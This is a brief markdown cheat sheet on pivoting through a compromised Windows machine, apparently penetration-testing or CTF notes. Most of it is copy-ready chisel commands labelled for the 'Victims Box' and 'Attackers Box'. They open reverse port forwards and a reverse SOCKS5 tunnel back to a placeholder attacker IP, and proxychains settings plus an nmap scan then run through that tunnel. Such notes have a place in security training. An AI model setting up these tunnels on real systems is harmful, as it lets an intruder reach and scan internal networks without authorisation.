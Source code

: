 # Windows pivoting

### Chisel for Windows
https://github.com/jpillora/chisel/releases

```
Victims Box: .\chisel.exe client <attackersIP>:8011 R:1234:127.0.0.1:1234
Attackers Box: .\chisel.exe server -p 8011 --reverse
```

### ippsec demonstration Proxychains
https://www.youtube.com/watch?v=Yp4oxoQIBAM&t=5446  

```
Configuring Proxychains:

vim /etc/proxychains.conf

comment proxy_dns
uncomment quiet_mode
remove any entries within proxy list
add socks5 127.0.0.1 1080

Setting up chisel:

Attackers Box: ./chisel server -p 8000 --reverse
Victims Box: .\chisel.exe client <attackerIP>:8000 R:8001:127.0.0.1:1337
Victims Box: .\chisel.exe server -p 1337 --socks5
Attackers Box: ./chisel client 127.0.0.1:8001 socks

Testing proxychains command:

proxychains nmap -sT <IP> -p <PORT> --min-rate=6000 -Pn
```

Standard Proxychains:  

https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29  

```
./chisel server -p 8080 --reverse

.\chisel.exe client <IP>:8080 R:socks

Edit Proxychains config file:
/etc/proxychains.conf

Add the following:
socks5 127.0.0.1 1080
```
